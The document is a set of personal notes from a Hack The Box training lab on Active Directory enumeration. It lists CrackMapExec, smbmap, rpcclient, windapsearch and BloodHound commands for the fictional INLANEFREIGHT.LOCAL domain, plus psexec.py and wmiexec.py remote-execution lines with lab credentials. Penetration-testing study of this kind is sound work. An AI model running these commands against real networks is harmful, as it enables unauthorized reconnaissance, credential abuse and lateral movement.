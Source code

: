  
#### CME - Domain User Enumeration
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

#### CME - Domain Group Enumeration
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```
#### CME - Logged On Users

```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```
#### Share Enumeration - Domain Controller
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
##### Spider_plus
```shell-session
Tachipy@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```
#### SMBMap To Check Access
```shell-session
Tachipy@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
```
#### Recursive List Of All Directories
```shell-session
Tachipy@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```
### rpcclient
```bash
rpcclient -U "" -N 172.16.5.5
```
#### RPCClient User Enumeration By RID

```shell-session
rpcclient $> queryuser 0x457
```
#### Enumdomusers
```shell-session
rpcclient $> enumdomusers
```


### Using psexec.py

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

Code: bash

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
#### Using wmiexec.py
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

### WINDAPSearch
#### Windapsearch - Domain Admins
```shell-session
Tachipy@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```

### Bloodhound
#### Executing BloodHound.py
```shell-session
Tachipy@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```
#### Viewing the Results

  Viewing the Results

```shell-session
Tachipy@htb[/htb]$ ls

20220307163102_computers.json  20220307163102_domains.json  20220307163102_groups.json  20220307163102_users.json  
```

#### Upload the Zip File into the BloodHound GUI

We could then type `sudo neo4j start` to start the [neo4j](https://neo4j.com/) service, firing up the database we'll load the data into and also run Cypher queries against.

Next, we can type `bloodhound` from our Linux attack host when logged in using `freerdp` to start the BloodHound GUI application and upload the data. The credentials are pre-populated on the Linux attack host, but if for some reason a credential prompt is shown, use:

- `user == neo4j` / `pass == HTB_@cademy_stdnt!`.

Once all of the above is done, we should have the BloodHound GUI tool loaded with a blank slate. Now we need to upload the data. We can either upload each JSON file one by one or zip them first with a command such as `zip -r ilfreight_bh.zip *.json` and upload the Zip file. We do this by clicking the `Upload Data` button on the right side of the window (green arrow). When the file browser window pops up to select a file, choose the zip file (or each JSON file) (red arrow) and hit `Open`.